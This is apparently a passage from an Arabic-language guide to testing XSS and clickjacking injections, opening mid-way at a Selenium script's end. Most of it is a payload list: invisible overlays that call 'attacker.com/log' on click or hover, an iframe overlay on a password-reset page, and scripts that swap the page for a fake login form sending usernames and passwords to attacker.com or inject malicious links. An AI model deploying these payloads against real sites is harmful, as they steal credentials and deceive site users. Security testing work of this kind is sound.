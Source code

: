   ```python
  driver.quit()
  ```
- **كيف يعمل**:
  - يفتح كل URL مع الحقنة في المتصفح.
  - يحاكي نقرة المستخدم لاختبار التفاعل.
  - يتطلب خادمًا خارجيًا لتسجيل الطلبات.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لتفاعلات المستخدم.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log`.
    - **تغييرات DOM**: تحقق من تعديل العناصر أو النماذج.
    - **تفاعل المستخدم**: تحقق من النقرات أو إدخال البيانات (عبر محاكاة Selenium).
  - مثال: إذا تلقى الخادم طلبًا بعد النقر، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد الحقن الأكثر فعالية.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<script>document.body.innerHTML='<button onclick="navigator.sendBeacon(\'http://attacker.com/log\')">Click</button>'</script>`).
  - جرب أحداث أخرى (مثل `onwheel`، `onpointerdown`).
  - اختبر دمج الحقن مع تقنيات أخرى (مثل إعادة التوجيه بعد النقر).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<div onwheel="fetch('http://attacker.com/log')" style="position:absolute;top:0;left:0;width:100%;height:100%">قم بالتمرير</div>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. إعادة توجيه النقر (Clickjacking):
- <div style="position:absolute;top:0;left:0;opacity:0;width:100%;height:100%" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>: يضع طبقة شفافة ويرسل طلبًا عند النقر.
- <div style="position:absolute;top:100px;left:100px;opacity:0.1" onclick="alert('تم النقر!')">اضغط هنا</div>: يعرض تنبيهًا عند النقر.
- <iframe src="https://example.com/reset-password" style="opacity:0;position:absolute;top:0;left:0"><div style="position:absolute;top:50px;left:50px" onclick="fetch('http://attacker.com/log')">إعادة تعيين</div></iframe>: يضع زرًا ضارًا فوق صفحة حساسة.
- <div style="position:absolute;top:0;left:0;opacity:0;z-index:9999;width:100%;height:100%" onmouseover="fetch('http://attacker.com/log')">مرر هنا</div>: ينفذ طلبًا عند تمرير المؤشر.
- <button style="position:absolute;top:100px;left:100px;opacity:0" onclick="document.location='http://attacker.com'">اضغط</button>: يعيد توجيه المستخدم عند النقر.

2. التلاعب بالعناصر البصرية:
- <script>document.body.innerHTML='<h1>خطأ: الرجاء تسجيل الدخول مجددًا</h1><form action="http://attacker.com/log"><input type="text" name="username"><input type="password" name="password"><input type="submit"></form>'</script>: يستبدل الصفحة بنموذج مزيف.
- <script>document.getElementById('login-btn').style.display='none';document.body.innerHTML+='<button onclick="fetch(\'http://attacker.com/log\')">تسجيل الدخول</button>'</script>: يخفي زرًا ويضيف زرًا ضارًا.
- <style>body { background: white; } #content { display: none; } .fake { position: fixed; top: 0; left: 0; width: 100%; height: 100%; }</style><div class="fake">صفحة تسجيل الدخول</div>: يغطي الصفحة بواجهة مزيفة.
- <script>document.querySelector('.notification').innerHTML='تم تسجيل الخروج. <a href="http://attacker.com">تسجيل الدخول</a>'</script>: يعدل إشعارًا لإضافة رابط ضار.
- <script>document.body.style.opacity='0.5';document.body.innerHTML+='<div style="position:fixed;top:0;left:0">تحديث الموقع...</div>'</script>: يجعل الصفحة باهتة مع رسالة مضللة.
